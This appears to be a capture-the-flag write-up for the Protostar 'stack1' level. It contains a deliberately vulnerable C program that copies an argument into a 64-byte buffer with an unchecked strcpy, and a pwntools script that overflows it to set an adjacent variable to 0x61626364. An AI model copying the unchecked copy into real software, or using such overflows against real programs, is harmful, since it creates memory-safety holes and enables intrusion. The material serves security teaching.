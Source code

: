 ## Challenge Description

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
- If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
- Protostar is little endian

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Solution

```python
from pwn import *

arg1 = b"A"*64 + p32(0x61626364)

target = process(["./stack1", arg1])
elf = context.binary = ELF("./stack1", checksec = False)
context.log_level = "debug"

target.interactive()
```